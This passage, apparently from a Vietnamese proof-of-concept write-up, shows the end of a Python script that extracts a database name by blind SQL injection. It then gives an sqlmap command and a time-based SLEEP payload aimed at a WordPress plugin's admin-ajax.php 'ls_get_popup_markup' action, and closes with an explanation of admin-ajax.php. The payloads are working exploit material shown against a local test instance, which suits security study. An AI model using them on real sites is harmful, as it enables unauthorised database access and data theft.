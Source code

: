 ```python
       else:
           # print("Condition not met, adjusting r")
           r = mid - 1
   print(f"found a character at position {l}")
   dataBase += chr(l-1)


   print(f"Found: {dataBase}")  # In tên cơ sở dữ liệu tìm được sau mỗi vị trí ký tự


print(f"Final database name: {dataBase}")

```

Tiếp theo đến khai thác bằng **Sqlmap**: 
```bash
sqlmap -u "localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[columns]=id" --dbs -p id[columns] --threads=10 --time-sec=2 --flush-session 
```

Parameter: 
```bash
    id[columns] (GET)

    Type: time-based blind

    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    
    Payload: action=ls_get_popup_markup&id[columns]=id AND (SELECT 3890 FROM (SELECT(SLEEP(2)))vQYk)
```

## Chú thích 
(*) Trong WordPress, file admin-ajax.php đóng vai trò xử lý các yêu cầu AJAX từ phía máy khách (client-side) tới máy chủ (server-side). AJAX (Asynchronous JavaScript and XML) là một kỹ thuật phát triển web cho phép các trang web thực hiện yêu cầu đến máy chủ và tải dữ liệu mà không cần phải tải lại toàn bộ trang.

Xử lý Yêu Cầu AJAX: Trong WordPress, cả frontend và backend (dashboard) của trang web sử dụng admin-ajax.php để xử lý các yêu cầu AJAX. Khi một hành động AJAX được kích hoạt bởi người dùng, JavaScript sẽ gửi một yêu cầu HTTP tới admin-ajax.php với các thông tin cần thiết để xử lý yêu cầu đó.

Cầu Nối Giữa JavaScript và PHP: admin-ajax.php làm cầu nối giữa mã JavaScript chạy trên trình duyệt và mã PHP chạy trên máy chủ. Nó nhận các yêu cầu từ JavaScript, xử lý chúng bằng PHP, và trả lại kết quả. Điều này cho phép các nhà phát triển tương tác với cơ sở dữ liệu và thực hiện các logic phức tạp mà không làm gián đoạn trải nghiệm người dùng.









